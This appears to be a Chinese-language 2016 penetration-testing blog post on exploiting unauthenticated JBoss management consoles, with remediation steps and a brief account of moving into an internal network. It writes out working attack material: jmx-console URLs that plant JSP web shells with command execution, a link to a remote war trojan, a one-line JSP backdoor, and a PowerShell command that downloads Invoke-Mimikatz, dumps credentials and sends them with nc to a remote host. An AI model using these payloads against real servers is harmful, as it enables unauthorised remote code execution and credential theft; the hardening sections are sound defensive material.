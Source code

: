 ```yaml
---
layout: post
title: "一次简单的漫游内网附带对jboss安全性的讨论"
date: 2016-12-08 
description: "jboss未授权访问的学习和修复"
tag: 渗透测试 
---
```


讲这个之前，先在本地搭建一个jboss环境，自从上次被吊打之后，觉得做安全的多少要会点防御，以前把太多精力放在攻击上面了。这就当做一个学习笔记，三件套，攻击过程，修复过程，自动化脚本。
## 漏洞复现 jmx-console
先安装docker镜像，docker pull tutum/jboss:as5

然后
```
docker run -d -p 8080:8080 -p 9990:9990 -e JBOSS_PASS="mypass" tutum/jboss
```
管理器的地址是
http://127.0.0.1:9990/manager/html
或者不设置密码
```
docker run -d -p 8080:8080 -p 9990:9990 tutum/jboss
```
这里选择as4版本，这个是老版本的jboss

![](http://pic.findbugs.top/public/16-12-10/65866709.jpg)
然后找到addurl,填上war木马地址，进行远程部署
![](http://pic.findbugs.top/public/16-12-10/95504378.jpg)
然后点击change
![](http://pic.findbugs.top/public/16-12-10/24456548.jpg)

然后才到连接
![](http://pic.findbugs.top/public/16-12-10/92262266.jpg)
http://192.168.190.145:8080/is/index.jsp
有些实际场景无法部署成功，可能做了限制吧
但是实际的路径确实在tmp路径下面
```
/jboss-4.2.3.GA/server/default/./tmp/deploy/tmp5962862023186656288is-exp.war/
```
## 漏洞修复 jxm-console
###1 加上密码验证
给jmx-console加上访问密码

 常见路径
 ```
 /jboss-4.2.3.GA/server/default/deploy/jmx-console.war/
 ```
1.在/server/default/deploy/jmx-console.war/WEB-INF/jboss- web.xml去掉<security-domain>java:/jaas/jmx-console</security- domain>的注释
2.)修改jboss-web.xml同级目录下的web.xml文件，查找到<security-constraint/>节点，去掉它的注释
其中内容为
```
<auth-constraint>  
<role-name>JBossAdmin</role-name>  
</auth-constraint>  
</security-constraint>  
```
表示角色
3.在JBoss安装目录/server/default/config/login-config.xml
查找代码jmx-console
其中大致为
```
<module-option name="usersProperties">props/jmx-console-users.properties</module-option>  
<module-option name="rolesProperties">props/jmx-console-roles.properties</module-option>
```
打开jmx-console-users.properties
内容为
```
admin=admin #用户名:密码
```
jmx-console-roles.properties为角色分配
```
admin=JBossAdmin, HttpInvoker #用户名=角色，多个角色以“,”隔开
```
修复完成

关键路径
修改注视的地方
server/default/deploy/jmx-console.war/WEB-INF/jboss- web.xml
server/default/deploy/jmx-console.war/WEB-INF/web.xml
用户密码位置
server/default/conf/props/jmx-console-users.properties
jxm-console用户名密码

极端方法
删除
查找web-consel路径
find / -iname ServerInfo.jsp
```
jboss-4.2.3.GA/server/all/deploy/jmx-console.war
/jboss-4.2.3.GA/server/all/deploy/management/console-mgr.sar/web-console.war
jboss-4.2.3.GA/server/default/deploy/jmx-console.war
/jboss-4.2.3.GA/server/default/deploy/management/console-mgr.sar/web-console.war
```



## 漏洞复现 web-console
参考文献
[各大容器拿shell](http://tieba.baidu.com/p/4384830632)
在有些高版本的jboss里面，貌似jxm-console无法直接部署
参考[http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0157256.html](http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0157256.html)
```
http://localhost:8080/jmx-console/HtmlAdaptor?action=invokeOpByName&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodName=store&argType=java.lang.String&arg0=upload5warn.war&argType=java.lang.String&&arg1=shell&argType=java.lang.String&arg2=.jsp&argType=java.lang.String&arg3=%3c%25+if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b+%25%3e&argType=boolean&arg4=True
```
带回显
```
http://192.168.31.6:8080/upload5warn/shell.jsp?f=hello.jsp&t=%3C%25if(%22023%22.equals(request.getParameter(%22pwd%22)))%7Bjava.io.InputStream%20in%20=%20Runtime.getRuntime().exec(request.getParameter(%22i%22)).getInputStream();int%20a%20=%20-1;byte%5B%5D%20b%20=%20new%20byte%5B2048%5D;out.print(%22%3Cpre%3E%22);while((a=in.read(b))!=-1)%7Bout.println(new%20String(b));%7Dout.print(%22%3C/pre%3E%22);%7D%25%3E%0A
```


上面的用法任意写
http://192.168.31.6:8080/upload5warn/shell.jsp?f=hello.txt&t=whoami

![](http://pic.findbugs.top/16-12-10/11680461-file_1481366662098_2bce.png)
之后在
http://192.168.31.6:8080/admin-console/secure/summary.seam?path=-33&conversationId=43&conversationPropagation=end会找到项目
![](http://pic.findbugs.top/16-12-10/64405151-file_1481366751650_39a5.png)
物理路径为
/jboss-5.1.0.GA/server/default/deploy/management/upload5warn.war/shell.jsp

查看路径发现
![](http://pic.findbugs.top/16-12-10/21802361-file_1481367598778_9b24.png)
所以访问
http://192.168.31.6:8080/upload5warn/shell.jsp?f=hello.txt&t=whoami可以写任意内容
![](http://pic.findbugs.top/16-12-10/24651987-file_1481368524000_10df8.png)

## 漏洞修复 web-console
同方法一

## 漏洞复现 9990/console
上面说的都是老版本的jboss，下载心版本的jboss发现，没有了上面的jxm-console,测试的版本是as7
![](http://pic.findbugs.top/16-12-10/135394-file_1481368963860_5492.png)
首先你要知道帐号和密码
在登录之后
![](http://pic.findbugs.top/16-12-10/3510331-file_1481371295394_56c6.png)
![](http://pic.findbugs.top/16-12-10/97439762-file_1481371320540_14d5c.png)
选择好一个war就可以部署了，也可以下在园长mm的
[http://p2j.cn/is.war](http://p2j.cn/is.war)
部署的时候记得点enable，然后访问就行了
![](http://pic.findbugs.top/16-12-10/90140430-file_1481371473610_11d18.png)
![](http://pic.findbugs.top/16-12-10/21271136-file_1481371773168_80d2.png)

## 漏洞修复 web-console
同方法一,修改密码


## 慢慢搞内网
我这里选择的是msf来入侵内网，用这个搞内网还是很成熟的，自动化很爽。
![](http://pic.findbugs.top/16-12-10/38134099-file_1481373288274_dcd9.png)
可以看到源码
![](http://pic.findbugs.top/16-12-10/82328586-file_1481373474878_a0ea.png)



## 内网渗透
首先尝试msf，但是发现反弹不出来,测试ping不通任何外网主机
![](http://pic.findbugs.top/16-12-11/54745491-file_1481390356993_a184.png)
试了几个常见的exp最终提权成功，不过域控没有搞下来，本次渗透就此作罢。
powweshell抓明文
```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds" | nc 192.168.1.1 4444 
```




## 修复参考文献
[http://blog.knowsky.com/193845.htm](http://blog.knowsky.com/193845.htm)
[jsp后门](http://www.hackdig.com/?12/hack-16680.htm)
附带几个jsp木马

```
<%Runtime.getRuntime().exec(request.getParameter("i"));%>
```
突然想到这些不同版本之间的拿shell方法不同，可以写一个完整的小项目来完成这个需求。




